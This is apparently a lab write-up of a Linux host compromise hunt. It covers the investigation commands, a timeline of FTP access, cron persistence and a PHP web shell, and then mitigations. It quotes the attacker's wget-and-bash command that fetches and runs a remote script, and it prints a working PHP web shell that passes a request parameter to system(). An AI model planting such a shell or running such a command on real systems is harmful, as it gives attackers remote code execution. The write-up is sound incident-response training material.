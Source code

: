 # Lab: Linux System Hunt

## Scenario 

A potential compromise on a Linux developer server after suspicious Slack activity and unusual network connections were reported.The objective was to investigate potential host-based indicators and confirm whether the two incidents were related.

## Summary
The threat actor gained initial access to the server via FTP and established persistence using a cron job that periodically downloaded and executed a malicious shell script. Further analysis revealed the use of a PHP web shell for remote command execution.

### Commands Executed

| Purpose | Command |
|---|---|
| Identify successful FTP authentications | `journalctl \| grep -i "ftp" \| grep -i "success"` |
| Inspect `/tmp` activity | `journalctl \| grep -i /tmp` |
| Find files modified within time window | `find / -newermt "3 Sept 2021 06:00:03" ! -newermt "3 Sept 2021 06:01:47" 2>/dev/null` |
| Review activity for account `ftpadam` | `journalctl \| grep ftpadam \| grep "110.44.125.139"` |

## Findings (timeline)

### Initial Access
- Timestamp: Sept 3, 2021 – 05:52:31
- Method: FTP login using account ftpadam
- Source IP: 110.44.125.139
- Evidence of successful FTP authentication confirming external access to the system.
![FTP](FTP.png)  

### Persistence
- Timestamp: Sept 5, 2021 – 00:00:01
- Mechanism: A shell script was dropped in /tmp via wget, made executable, and executed by root.
- Command observed in logs: `wget http://crest.tt/bJx3 -O /tmp/tmp.sh && chmod +x /tmp/tmp.sh && bash /tmp/tmp.sh`


- A weekly cron job was also created to automatically download and execute the same remote script as root, ensuring continuous persistence.
![Shell Script](Shell_Script.png)
![Cron Job](Cron_Job.png)      

### Remote code execution via web shell
A PHP file was. The snippet in the screenshot below checks whether an HTTP parameter named z was provided (\$_REQUEST["z"]). If so, it prints a "pre" tag, assigns the parameter to \$z, and calls system(\$z). system() executes the string as a shell command on the server and returns output. *die* ends script execution after running the command. An attacker can send `http://victim/shell.php?z=whoami` (or other commands) and have the server run arbitrary shell commands as the web server user

Snippet observed:
`<?php 
if(isset($_REQUEST["z"])) {
  echo "<pre>"; 
  $z = ($_REQUEST["z"]); 
  system($z); 
  echo "</pre>"; 
  die; 
}
?>`

### Last Activity
The attacker’s last observed activity occurred at Sept 3, 2021 – 09:25:25.
![Last Activity](last_activity.png) 


## Mitigation Recommendations
- Rotate all service passwords and kill sessions for user account `ftpadam`
- Block ip `110.44.125.139` at the firewall level
- Remove the cron jobs created by the actor
- Remove malicious PHP web shell
- Install an IDS/IPS on the machine for future monitoring
- Patch or disable legacy FTP; if file transfer is required, use SFTP/FTPS and enforce strong authentication.
- Search other hosts for the same IOCs and conduct lateral-movement triage.

1. **Isolate the host**
   - Remove network access (or block egress) immediately to prevent further communication with attacker infrastructure.

2. **Block IOCs**
   - Block IP `110.44.125.139` and related domains (e.g., `crest.tt`) at the firewall and proxy level.
   - Add domain/IP/file-hash IOCs to IDS/IPS rules and endpoint detection lists.

3. **Reimage the host**

4. **Credential rotation & access hardening**
   - Rotate all credentials used on the host (service accounts, SSH keys, API tokens) and invalidate sessions for compromised accounts (e.g., `ftpadam`).
   - Enforce MFA where possible and tighten access control (limit who can create cron entries / upload files).

5. **Post‑reimage validation & monitoring**
   - Deploy monitoring agents (EDR/agent and Zeek/Suricata) and centralize logs to the SIEM.
   - Apply detection rules tuned to the indicators observed (wget/curl from /tmp, new root cron entries, web shell patterns).
   - Monitor the network for any signs of the attacker attempting to re-contact the environment.

6. **Environment-wide hunt**
   - Search other hosts for the same IOCs (domain, IP, file hashes, suspicious cron entries).
   - Check authentication logs for lateral movement attempts or reused credentials.

7. **Remediation follow-ups**
   - Patch or replace legacy services (disable FTP or replace with SFTP/FTPS), and harden web applications to prevent file uploads or RCE.
   - Conduct a post-incident review to update playbooks and detection rules.


## MITRE ATT&CK Mapping

| Tactic         | Technique                         | ID            |
| -------------- | --------------------------------- | ------------- |
| Initial Access | Exploit via Remote Services (FTP) | **T1133**     |
| Persistence    | Scheduled Task/Job (Cron)         | **T1053.003** |
| Execution      | Command Execution via Web Shell   | **T1505.003** |


